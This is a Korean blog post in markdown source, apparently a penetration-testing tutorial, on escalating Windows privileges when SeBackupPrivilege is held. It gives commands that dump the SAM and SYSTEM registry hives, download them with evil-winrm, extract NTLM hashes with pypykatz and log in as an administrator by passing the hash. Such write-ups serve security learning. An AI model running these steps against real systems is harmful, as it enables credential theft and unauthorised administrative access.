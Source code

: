```yaml
---
layout: post
title: 백업 권한을 이용한 윈도우 권한 상승
subtitle: SeBackupPrivilege가 있을 때 권한 상승 방법
category: knowledge
thumbnail-img: /assets/img/knowledge/backuppriv.png
tags: [windows, SeBackupPrivilege]
author: Hong
---
```

이번 포스팅에서는 아래 이미지와 같이 SeBackupPrivilege가 활성화되어 있는 경우 권한 상승하는 방법에 대해 써보겠다.

![SeBackupPrivilege](/assets/img/knowledge/backuppriv.png)

참고로 위의 권한은 `whoami /priv나 /all 명령어로 확인 할 수 있다.`
# sam, system 파일을 가져오기기

이 수법의 특징은 모든 파일을 읽을 수 있다는 것.

다음과 같은 명령어를 입력한다.
```powershell
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
템프 디렉토리에 sam파일과 system파일을 저장한다.

kali에 위 파일들을 가져오기 위해 evil-winrm같은 툴로 다운로드 한다.
```powershell
cd Temp
download sam
download system
```
# NTLM 해쉬 추출
파일들을 옮겼으면 해쉬를 추출하기 위해 pypykatz를 이용한다.

이렇게 하는 이유는 윈도우에서 mimikatz를 관리자 권한으로 실행 할 수 없기 때문.

`pypykatz registry --sam sam system`

실행하면 아래와 같이 유저와 그에따른 해쉬값이 추출되어 나타난다.
![NTLMhash](/assets/img/knowledge/NTLMhash.png)
위의 해쉬값을 이용하여 관리자 권한을 가진 유저로 로그인한다.

`evil-winrm -i 192.168.x.x -u raj -H <해쉬>`

이렇게해서 백업 권한을 가진 경우 민감한 파일을 복사해 kali로 옮긴 후 해쉬를 추출해보았다.